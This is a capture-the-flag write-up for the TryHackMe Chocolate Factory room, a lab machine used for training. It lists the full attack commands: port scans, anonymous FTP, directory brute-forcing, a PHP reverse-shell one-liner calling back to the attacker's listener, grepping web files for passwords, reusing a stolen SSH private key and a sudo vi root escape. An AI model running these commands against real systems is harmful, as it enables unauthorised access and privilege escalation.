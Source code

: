# Chocolate Factory

**Room Link:** [https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: anonymous
>binary
>passive
>mget *
```

<figure><img src="../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands here and we see the key\_rev\_key file

![](<../../.gitbook/assets/image (2) (8).png>)



We go there by the url and we can download it

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings key_rev_key
```

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





### Web Shell

**Web**

```
php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4444
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/www/html/
grep password *
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### Shell

I was not able to su into charlie with the password, the credentials did work for the web login but it just brought me to the command page.

**Victim**

```
cd /home/charlie/
cat teleport
```

I copied the teleport private key to kali

**Kali**

```
subl teleport 
chmod 700 teleport
ssh -i teleport charlie@$VICTIM  
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Exploit Link:** [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Charlie can run vi with no passwd so I just followed the link above to become root

**Victim**

```
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>



























































